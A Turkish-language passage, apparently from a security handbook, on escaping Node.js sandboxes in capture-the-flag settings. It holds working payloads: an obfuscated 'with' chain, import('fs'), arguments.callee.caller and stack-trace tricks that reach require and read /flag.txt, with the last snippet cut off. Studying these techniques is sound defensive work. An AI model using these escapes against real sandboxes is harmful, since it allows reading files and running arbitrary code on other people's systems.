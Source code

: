 ```javascript

//Final solution
with(
/with(String)
with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)
with(mainModule)
with(require(k))
return(String(readFileSync(n)))
/)
with(this)
with(constructor)
constructor(source)()

// For more uses of with go to challenge misc/CaaSio PSE in
// https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/#misc/CaaSio%20PSE
```
Eğer **her şey tanımsızsa** güvenilmeyen kod çalıştırılmadan önce (örneğin [**bu yazıda**](https://blog.huli.tw/2022/02/08/en/what-i-learned-from-dicectf-2022/index.html#miscx2fundefined55-solves)) yararlı nesneleri "hiçbir şeyden" oluşturmak ve keyfi güvenilmeyen kodun çalıştırılmasını istismar etmek mümkündür:

- import() kullanarak
```javascript
// although import "fs" doesn’t work, import('fs') does.
import("fs").then((m) => console.log(m.readFileSync("/flag.txt", "utf8")))
```
- `require`'a dolaylı erişim

[Buna göre](https://stackoverflow.com/questions/28955047/why-does-a-module-level-return-statement-work-in-node-js/28955050#28955050) modüller Node.js tarafından bir fonksiyon içinde sarılır, şöyle:
```javascript
;(function (exports, require, module, __filename, __dirname) {
// our actual module code
})
```
Bu nedenle, eğer o modülden **başka bir fonksiyonu çağırabiliyorsak**, o fonksiyondan **`require`**'a erişmek için `arguments.callee.caller.arguments[1]` kullanmak mümkündür:
```javascript
;(function () {
return arguments.callee.caller.arguments[1]("fs").readFileSync(
"/flag.txt",
"utf8"
)
})()
```
Önceki örnekteki gibi, **hata işleyicilerini** kullanarak modülün **wrapper**'ına erişmek ve **`require`** fonksiyonunu almak mümkündür:
```javascript
try {
null.f()
} catch (e) {
TypeError = e.constructor
}
Object = {}.constructor
String = "".constructor
Error = TypeError.prototype.__proto__.constructor
function CustomError() {
const oldStackTrace = Error.prepareStackTrace
try {
Error.prepareStackTrace = (err, structuredStackTrace) =>
structuredStackTrace
Error.captureStackTrace(this)
this.stack
} finally {
Error.prepareStackTrace = oldStackTrace
```